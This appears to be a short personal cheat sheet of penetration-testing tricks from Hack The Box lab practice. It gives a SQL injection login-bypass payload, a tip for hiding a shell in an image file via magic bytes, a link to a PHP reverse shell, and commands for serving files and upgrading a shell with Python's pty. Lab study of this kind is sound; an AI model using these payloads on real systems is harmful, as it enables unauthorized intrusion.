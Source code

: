 # tricks-htb
Tricks learned while practicing in the hack the box lab.

## Create Python http server to serve files
```python -m SimpleHTTPServer```

## Bypass login
(magic) Try SQL injection in the login form. Pass this as user and password: `' or 1 = 1--`

## Inject shell into image
(magic) Insert the magic bytes in the beginning of the file that indicate the file format.

## Enumeration
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

## PHP reverse shell
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

## When you cannot run `su` but you have python
```bash
echo "import pty; pty.spawn('/bin/bash')" > spawn.py
python3 spawn.py
```

